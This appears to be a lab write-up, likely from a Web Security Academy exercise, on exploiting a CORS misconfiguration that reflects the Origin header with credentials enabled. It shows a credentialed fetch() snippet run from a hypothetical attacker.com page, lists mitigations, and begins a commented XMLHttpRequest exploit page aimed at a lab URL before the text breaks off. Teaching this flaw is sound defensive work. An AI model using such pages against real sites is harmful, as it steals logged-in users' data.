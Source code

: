 #### How This Works:
1. The server **reflects the `Origin` header** from the request directly into the `Access-Control-Allow-Origin` response header without validation.
2. The server allows **cross-origin requests from any domain**, effectively bypassing CORS protections.

### **Exploitation Example**
An attacker creates a malicious website (`http://attacker.com`) and tricks the victim into visiting it while logged into the vulnerable application. Using JavaScript, the malicious site sends a cross-origin request to the application:

```javascript
fetch('https://vulnerable-site.com/sensitive-data', {
    credentials: 'include'
})
.then(response => response.json())
.then(data => {
    console.log(data); // Sensitive information is now accessible to the attacker
});
```

- The **Origin header** in the request will be `http://attacker.com`.
- The vulnerable server reflects this origin in `Access-Control-Allow-Origin`, allowing the malicious origin to access sensitive data.
- The server also includes `Access-Control-Allow-Credentials: true`, enabling cookies or session tokens to be sent with the request.

### **Impact**
The attacker can:
1. Access sensitive data (e.g., user profiles, financial info).
2. Perform unauthorized actions on behalf of the victim.

### **Mitigation**
1. **Validate Allowed Origins:** Only allow trusted origins using a whitelist:
   ```javascript
   const allowedOrigins = ['https://trusted-site.com'];
   if (allowedOrigins.includes(origin)) {
       res.setHeader('Access-Control-Allow-Origin', origin);
   }
   ```
2. **Avoid Wildcards with Credentials:** Never use `*` or reflect the `Origin` header when `Access-Control-Allow-Credentials` is enabled.
3. **Least Privilege:** Limit endpoints that require CORS and ensure sensitive endpoints are inaccessible via cross-origin requests.
4. **Security Testing:** Regularly test for CORS misconfigurations.

### exploit code & explanation
Here is your commented code, with explanations for each line:

```html
<html>
    <body>
        <!-- The main body of the HTML document -->
        <h1>Hello World!</h1>
        <!-- Displays a heading on the page -->

        <script>
            <!-- Start of the embedded JavaScript code -->

            // Create a new XMLHttpRequest object to make HTTP requests.
            var xhr = new XMLHttpRequest();

            // Define the URL for the target server where the request will be sent.
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net";
```